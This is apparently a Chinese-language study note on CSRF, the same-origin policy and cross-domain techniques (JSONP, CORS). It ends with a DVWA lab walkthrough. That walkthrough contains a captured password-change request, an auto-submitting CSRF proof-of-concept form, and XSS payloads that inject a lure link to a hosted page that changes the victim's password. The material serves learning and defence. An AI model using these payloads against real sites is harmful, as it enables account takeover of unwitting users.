




跨站请求伪造(Cross-site request forgery,CSRF)是一种攻击，它强制终端用户在当前对其进行\<span data-type\="text" style\="color: var(--b3-font-color9);"\>身份验证后的Web应用程序
上执行非本意的操作\<span\>。CSRF攻击的着重点在伪造更改状态的请求，而不是盗取数据，因为攻击者无法查看对伪造请求的响应

### CSRF漏洞的原理

(用DVWA举例)

1. `47.113.187.190:36974/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change`这个网站在用户修改个人的信息时没有过多的校验，导致这个请求容易被伪造。
2. 目的：我们可以伪造请求，修改他人信息

    条件：<span data-type="text" style="color: var(--b3-font-color9);">1.对方也登陆的该网站  2.对方点击了链接触发修改信息的伪请求</span>（二者缺一不可）


### 防御措施

防止这些操作出现被伪造的情况，从而导致CSRF。

0. 验证<span data-type="text" style="color: var(--b3-font-color9);">Referer</span>，如果Referer是其他网站的话，就可能是CSRF攻击。检测绕过：referer头留空
1. 对敏感信息的操作增加安全的<span data-type="text" style="color: var(--b3-font-color9);">token</span>，可以在HTTP请求中参数形式加入一个随机token，并在服务器端建立拦截器验证token。
2. 对敏感信息的操作前增加<span data-type="text" style="color: var(--b3-font-color9);">二次验证</span>；
3. 及时退出网站，不随意点击链接/图片。

### 把token放置在cookiet中，能否防护csrf

不能，csrf冒用cookie,放置在cookie中直接被利用

### CSRF需不需要获取cookie

不需要，cookie是存储在浏览器内，不需要获取cookie,本质是在冒用用户cookie

### CSRF与XSS的区别

1. XSS攻击的是客户端，CSRF攻击的是服务端
2. XSS主要是获取身份信息cookie.csrf是冒用用户身份，不获取cookie
3. XSS是将语句插入html页面中，盗取到了用户的权限，然后实施破坏。
4. CSRF是冒用用户身份，借用户的权限完成攻击，攻击者并没有拿到用户的权限。
5. CSRF危害更大，防御难度比XSS高

### 同源策略

如果两个页面的<span data-type="text" style="color: var(--b3-font-color9);">协议</span>，<span data-type="text" style="color: var(--b3-font-color9);">端口</span>（如果有指定）和<span data-type="text" style="color: var(--b3-font-color9);">域名</span>都相同，则两个页面具有相同的源；是浏览器用于隔离潜在恶意文件的重要安全机制。不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。

#### 受约束对象

DOM、Cookie、第三方插件、XMLHttpRequest

#### 不受约束对象

```bash
页面中的链接\<a href\="\">、重定向、表单action:\=””，提交是不会受到同源策略限制的。
跨域资源的引入是可以的。但是js不能读写加载的内容。如嵌入到页面中的\<script\>,\,\<link\>,\<iframe\>等带src属性的标签。
```

#### 非同源受到的限制

Cookie、LocalStorage、IndexDB无法读取、DOM无法获得、AJAX请求不能发送

### 跨域

受同源策略的影响，<span data-type="text" style="color: var(--b3-font-color9);">不是同源的脚本不能操作其他源下面的对象</span>。想要操作另一个源下的对象是就需要跨域，把<span data-type="text" style="color: var(--b3-font-color9);">不同域之间请求数据的操作，称为跨域</span>。

### 跨域方法

#### document.domain跨域

若两个页面一级域名相同，只是二级域名不同，那么<span data-type="text" style="color: var(--b3-font-color9);">浏览器可以通过设置document.domain来共享Cookie</span>

**注意**

1.只能在<span data-type="text" style="color: var(--b3-font-color9);">父域名与子域名</span>之间使用
2.存在安全性问题，当一个站点被攻击后，另一个站点会引起安全漏洞
3.只适用于Cookie和iframe窗口。

#### JSONP跨域

利用\<script\>的src不受同源策略约束实现跨域获取数据。
Jsonp(JSON with Padding)是json的一种"<span data-type="text" style="color: var(--b3-font-color9);">使用模式</span>"，可以让网页从<span data-type="text" style="color: var(--b3-font-color9);">别的域名（网站）那获取资料</span>，即跨域读取数据。

**注意**

1.存在安全性问题，需要网站双方商议基础token的身份验证
2.只能是GET,不能POST
3.可能被注入恶意代码，篡改页面内容，可以采用字符串过滤来规避此问题。

#### CORS跨域

<span data-type="text" style="color: var(--b3-font-color9);">CORS全称Cross-Origin Resource Sharing</span>,跨域资源共享，是HTML5的一个新特性，已被所有浏览器支持，不同于古老的
jsonp只能get请求。CORS允许浏览器向跨域服务器发出XMLHttpRequest请求。如果

利用JavaScript无法控制HTTP头的特点，通过目标返回的HTTP头授权是否允许跨域访问。

Access-Control-Allow-Origin:a.baidu.com #b.baidu.com可以访问我的资源

Access-Control-Allow-Origin:null   #谁都可以访问 有的浏览器不支持这样写

Access-Control-Allow-Origin:\*       #谁都可以访问

```php
a.com想得到b.com中的内容，在b.com里面添加响应头声明允许a.com的访问
添加：Access-Control-Alow-Origin:http:/a.com然后a.com就可以用ajax获取b.com里的数据了
```

#### 跨域利用

1. 同于csrf跨站请求伪造，发送钓鱼链接，读取用户敏感数据。
2. 跨站请求，获取cookie
3.  请求攻击服务器的恶意js等代码

### DVWA中**利用XSS漏洞和csrf漏洞修改密码**

1. 登陆DVWA靶场

    目前账号密码为：admin/password
2. 攻击者通过CSRF模块抓包

    
3. 攻击者提取到的修改密码的包

    ```php
    GET /vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change HTTP/1.1
    Host: 47.113.187.190:36974
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate, br
    Connection: close
    Referer: http://47.113.187.190:36974/vulnerabilities/csrf/
    Cookie: PHPSESSID=9sn4v5t9pr06kaqlmpmhetkds4; security=low
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

    ```

4. 攻击者伪造该包

    ```php
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
        <form action="http://47.113.187.190:51594/vulnerabilities/csrf/">
          <input type="hidden" name="password&#95;new" value="123456" />
          <input type="hidden" name="password&#95;conf" value="123456" />
          <input type="hidden" name="Change" value="Change" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

    

5. 其次我们在XSS模块注入用户触发改密码的a标签

    ```php
    payload：</div><a href="http://burpsuite/show/4/mzeu3hmxur1v9r0m4mf44md8qglhej5n">点击中大奖</a><div>
    ```

    
6. 当用户点击该链接，用户密码就会被修改

    

    
7. 刚才是请求bp代理的服务，如果将链接放到公网，只要用户点击会被改密

    

    ```php
    payload：</div><a href="http://47.113.187.190:90/dvwa_csrf+xss.html">点击中大奖</a><div>
    ```